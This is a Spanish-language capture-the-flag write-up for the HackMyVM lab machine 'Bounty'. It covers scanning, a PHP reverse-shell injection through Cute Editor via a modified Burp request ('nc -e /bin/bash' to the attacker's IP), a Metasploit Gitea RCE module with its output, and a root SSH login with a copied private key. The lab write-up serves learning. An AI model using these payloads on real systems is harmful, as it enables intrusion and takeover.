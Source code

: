 ```yaml
---
layout: post
title: Bounty - Hackmyvm
tags: [ctf, hackmyvm]
---
```


**Autor**: Sml \\
**Dificultad**: Medio

![img](/imgs/write-ups/hackmyvm/bounty/bounty.png#center)

## Reconocimiento

Lo primero, realizo un escaneo de los puertos abiertos en la máquina.

```
$ sudo nmap -p- 192.168.1.48 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-01 14:33 UTC
Nmap scan report for 192.168.1.48
Host is up (0.00012s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:67:D0:A4 (Oracle VirtualBox virtual NIC)
```

Utilizando curl para cargar la página principal del servidor, encuentro lo que parece un cronjob.

```
$ curl 192.168.1.48                             
* * * * * /usr/bin/php /var/www/html/document.html
```

Cada minuto se está utilizando PHP para ejecutar el código que haya en "document.html"

Tambien utilizo "nikto" para continuar con la enumeración.

```
nikto --host 192.168.1.48 
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.1.48
+ Target Hostname:    192.168.1.48
+ Target Port:        80
+ Start Time:         2023-01-01 14:37:45 (GMT0)
---------------------------------------------------------------------------
+ Server: nginx/1.18.0
+ Server leaks inodes via ETags, header found with file /, fields: 0x635104a1 0x33 
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Cookie PHPSESSID created without the httponly flag
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Multiple index files found: /index.html, /default.htm, /index.php
+ 7535 requests: 0 error(s) and 6 item(s) reported on remote host
+ End Time:           2023-01-01 14:38:07 (GMT0) (22 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Lo importante de aquí es el archivo de index llamado "default.htm". Al navegar a ese archivo, me encuentro con un programa llamado "Cute editor".

![img](/imgs/write-ups/hackmyvm/bounty/bounty_1.png#center)

## Explotación

Navego a "Demo > Edit Static HTML" y utilizando burpsuite, subo una reverse shell al servidor.

![img](/imgs/write-ups/hackmyvm/bounty/bounty_2.png#center)

Para subir la shell:

- Navego primero a "Edit Static HTML".
- Sin escribir nada, pulso guardar.
- Edito la petición en burpsuite para subir la shell.
- Creo un listener y espero la conexión.

Petición en burp modificada:

```
POST /Edithtml.php?postback=true HTTP/1.1
Host: 192.168.1.48
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 117
Origin: http://192.168.1.48
Connection: close
Referer: http://192.168.1.48/Edithtml.php
Cookie: PHPSESSID=91fdqufp9aq0pcn9baa7csv3pg
Upgrade-Insecure-Requests: 1

Editor1=<?php+system('nc+-e+/bin/bash+192.168.1.79+1234');?>&Editor1ClientState=&Save.x=9&Save.y=6&textbox1=%3C%3Fphp%2Bsystem%28%27nc+-e+%2Fbin%2Fbash+192.168.1.79+1234%27%29%3B%3F%3E++++++++++++
```

Al cabo de un minuto, obtengo una shell como Hania gracias al cronjob visto anteriormente.

```
nc -lnvp 1234            
Connection from 192.168.1.48:33668
hania@bounty:~$ :)
```

## Escalado de privilegios

Hania tiene permiso para ejecutar el binario Gitea que se encuentra en /home/primavera como el usuario Primavera.

```
hania@bounty:~$ sudo -l
Matching Defaults entries for hania on bounty:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User hania may run the following commands on bounty:
    (primavera) NOPASSWD: /home/primavera/gitea \"\"
```

Tras ejecutarlo, se inicia un servicio de Gitea en el puerto 3000. Como se puede ver en la parte inferior izquierda del navegador, la versión de Gitea que se está ejecutando es la 1.16.6.

```
Impulsado por Gitea Versión: 1.16.6 Página: 0ms Plantilla: 0ms 
```
Para escalar privilegios, lo primero que hago es registrar un usuario nuevo en el servidor.

![img](/imgs/write-ups/hackmyvm/bounty/bounty_3.png#center)

Una vez creada la cuenta, utilizo metasploit para conseguir una sesión.

Es importante cambiar el target por defecto que tiene seleccionado metasploit a "Unix Command", ya que de otra forma no funcionará.

```
[...]
msf6 exploit(multi/http/gitea_git_fetch_rce) > set target Unix\ Command 
target => Unix Command
msf6 exploit(multi/http/gitea_git_fetch_rce) > run

[*] Started reverse TCP handler on 192.168.1.79:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version detected: 1.16.6
[*] Using URL: http://192.168.1.79:8080/
[*] Command shell session 1 opened (192.168.1.79:4444 -> 192.168.1.48:47888) at 2023-01-01 15:04:58 +0000
[*] Server stopped.

whoami
primavera
```

Una vez siendo Primavera, encuentro un nota en su directorio home.

```
$ cat note.txt    
Im the shadow admin. Congrats.
```

Suponiendo que Primavera es "admin", pruebo copiando la clave privada (id_rsa) de Primavera a mi máquina y después intento logearme mediante ssh.

Para mi sorpresa, sí funciona.

```
ssh root@192.168.1.48 -i primavera_id_rsa
[...]
Last login: Thu Oct 20 11:55:16 2022
root@bounty:~# :)
```

Muchas gracias a **Sml** por esta máquina.

